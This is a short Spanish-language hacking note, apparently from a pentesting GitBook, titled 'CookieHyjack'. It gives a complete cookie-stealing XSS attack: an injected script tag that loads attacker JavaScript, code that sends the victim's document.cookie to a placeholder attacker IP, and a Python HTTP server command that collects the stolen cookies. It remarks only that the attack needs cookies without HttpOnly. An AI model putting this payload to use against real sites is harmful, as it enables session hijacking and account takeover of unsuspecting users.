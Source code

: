 # CookieHyjack

Este script básico funciona siempre y cuando la cookie del usuario victima tenga en false la propiedad HttpOnly&#x20;

```
// entrada de la web, hace un llamado a nuestro servidor donde hay alojado el fichero que recoge la cookie 
<script src="IP_atacante/fichero.js"></script>   
```

```
// fichero para recoger la cookie del usuario 
var request = new XMLHttpRequest();
Request.open('GET', 'http://IP_atacante/?cookie=' + document.cookie);
request.send();
```

```
// servidor donde recibimos la cookie
python3 -m http.server 80
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image.png" alt="" width="563"><figcaption></figcaption></figure>

</div>
